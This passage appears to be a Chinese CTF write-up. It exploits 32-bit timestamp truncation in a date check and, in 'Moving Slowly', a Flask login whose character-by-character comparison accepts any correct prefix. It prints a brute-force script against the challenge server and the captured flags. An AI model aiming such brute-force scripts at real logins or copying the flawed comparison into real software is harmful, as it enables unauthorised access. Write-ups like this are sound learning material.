外部函数声明，说明可能服务端是`int32_t`，所以在这里可能就有差异，且`validate_future_date`算的是时间戳大小来比较是否是未来，写个脚本来让看看二者如果进行强制转换的话时间是否不同

```python
import ctypes
from datetime import datetime, timedelta


def date_to_timestamp(date_str):
    """绝对安全的日期转时间戳（支持任意年份）"""
    dt = datetime.strptime(date_str, "%Y-%m-%d")
    epoch = datetime(1970, 1, 1)
    return int((dt - epoch).total_seconds())


def timestamp_to_date(timestamp):
    """支持所有时间戳的日期转换"""
    epoch = datetime(1970, 1, 1)
    return (epoch + timedelta(seconds=timestamp)).strftime("%Y-%m-%d")


def main():
    print("时间戳转换演示（支持超大年份）")
    while True:
        try:
            date_str = input("输入日期 (格式：YYYY-MM-DD，直接回车退出): ").strip()
            if not date_str:
                print("程序结束")
                break

            # 计算64位时间戳
            t_64bit = date_to_timestamp(date_str)

            # 强制转为32位（模拟2038问题）
            t_32bit = ctypes.c_int32(t_64bit).value

            # 输出结果
            print(f"\n原始日期: {date_str}")
            print(f"64位时间戳: {t_64bit} -> 转换回日期: {timestamp_to_date(t_64bit)}")
            print(f"32位截断值: {t_32bit} -> 模拟2038问题: {timestamp_to_date(t_32bit)}")

        except ValueError:
            print("错误：日期格式必须为 YYYY-MM-DD（如：3000-01-01）")
        except Exception as e:
            print(f"发生未知错误: {e}")


if __name__ == "__main__":
    main()

```

全部都用手动转换，不然数字大了不行，那么爆破一下输入什么最后会是`2025-3-21`，本来想写个爆破脚本的，但是真写不出来，一直报错



```
3114-1-14
# flag
gigem{7urn_y0ur_c0mpu73r_0ff_83f0r3_m1dn19h7}
```

这题给我做人格分裂了快

## Moving Slowly(84 solves)

```python
from flask import Flask, request, render_template
from transformers import GPT2LMHeadModel, GPT2Tokenizer
from os import environ
import logging
import re

app = Flask(__name__)

# Set up logging
logging.basicConfig(level=logging.DEBUG)

# Model initialization
model_name = 'gpt2'
tokenizer = GPT2Tokenizer.from_pretrained(model_name)
model = GPT2LMHeadModel.from_pretrained(model_name)
tokenizer.pad_token = tokenizer.eos_token

correct_password = environ.get('PASS')
FLAG = environ.get('FLAG')

def clean_message(message):
    sentences = re.split(r'(?<=[.!?])\s+', message)  
    return " ".join(sentences[:2])  

def generate_silly_message():
    prompt = "First tell the user that their password is wrong, then come up with a silly joke to cheer them up about it"
    inputs = tokenizer(prompt, return_tensors="pt", max_length=30, truncation=True)
    outputs = model.generate(
        inputs.input_ids,
        attention_mask=inputs.attention_mask,
        max_new_tokens=30,
        do_sample=True,
        temperature=0.7,
        top_p=1.0,
        pad_token_id=tokenizer.eos_token_id
    )
    full_response = tokenizer.decode(outputs[0], skip_special_tokens=True)
    full_response.replace(prompt, "").strip()
    return clean_message(full_response.replace(prompt, "").strip())


def compare_password(input_password):
    for i, char in enumerate(input_password):
        if char != correct_password[i]:
            print(i)
            silly_message = generate_silly_message()
            return False, silly_message  
    return True, None  

@app.route('/')
def login_page():
    return render_template('login.html')

@app.route('/login', methods=['POST'])
def login():
    input_password = request.form['password']
    password_correct, silly_message = compare_password(input_password)
    if password_correct:
        response_message = f"Welcome back! You have logged in successfully. The flag is {FLAG}"
    else:
        response_message = f"Oops! Incorrect password. {silly_message}"

    return render_template('login.html', response_message=response_message)

if __name__ == '__main__':
    app.run('0.0.0.0', port=8000)

```



进行逐字符比较，并且会输出错误的那一位，那我们可以fuzz一下看看



正当我想要进行遍历代码的时候，看到一个漏洞，就是这个函数如果不返回False就会返回true，如果我们输入的一位刚好等于密码的第一位的时候就会成功返回true，写出如下demo测试

```python
correct_password="test"
flag="flag{test}"

def compare_password(input_password):
    for i, char in enumerate(input_password):
        if char != correct_password[i]:
            print(i)
            return False
    return True

if compare_password(input()) == False:
    pass
else:
    print(flag)
```



```python
import requests
import string

chars=string.ascii_letters + string.digits + string.punctuation
# print(chars)
url="https://moving-slowly.cybr.club/login"
while True:
    for char in chars:
        r=requests.post(url,data={"password":f"{char}"})
        if "gigem{" in r.text:
            print(r.text)
            print(char+"对了")
            exit()
        else:
            print(char+"不对")
```

